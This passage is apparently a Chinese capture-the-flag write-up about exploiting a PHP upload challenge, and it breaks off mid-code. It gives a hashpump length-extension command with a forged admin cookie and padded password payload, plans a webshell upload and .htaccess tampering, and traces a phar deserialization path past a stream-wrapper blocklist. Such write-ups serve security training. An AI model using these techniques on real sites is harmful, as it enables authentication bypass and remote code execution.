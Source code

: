 上传文件时得是admin才能上传文件，验证的方式是通过`$_COOKIE['user']`和`md5($secret.$this->username.$this->password)`进行验证，这两个东西，我们可以通过hash拓展进行伪造

```
hashpump -s "52107b08c0f3342d2153ae1d68e6262c" -d adminadmin -k 8 -a admin123
$_COOKIE['user']:da87617c23790ab325af3e593dbc093c
username:admin
password:admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00admin123

admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00admin123
```

然后登录，上传文件时得记得带上$_COOKIE['user']，这样就能上传文件了。



#### 第二部分

当我们在访问upload.php时将会生成一个.htaccess文件。由于这个文件里面的内容被服务器写死了，所以我们上传的马无法被正常地解析，所以我们要做的就是给.htaccess做手脚。

```php
<?php
error_reporting(0);
include ("config.php");
$file_name = $_GET['filename'];
$file_path = $_GET['filepath'];
$file_name=urldecode($file_name);
$file_path=urldecode($file_path);
$file = new File($file_name, $file_path);
$res = $file->view_detail();
$mine = $res['mine'];
$store_path = $res['store_path'];
```

跟进view_detail()

```php
    public function view_detail(){
        if      (preg_match('/^(phar|compress|compose.zlib|zip|rar|file|ftp|zlib|data|glob|ssh|expect)/i', $this->filepath))
        {
            die("nonono~");
        }
        $mine = mime_content_type($this->filepath);
        $store_path = $this->open($this->filename, $this->filepath);
        $res['mine'] = $mine;
        $res['store_path'] = $store_path;
        return $res;
    }
```

这里的`mime_content_type()`函数将会触发phar引起的反序列化漏洞。

```php
class File{

    public $checker;

    function __construct($filename, $filepath)
    {
        $this->filepath = $filepath;
        $this->filename = $filename;
    }
    ... ... 
    function __destruct()
    {
```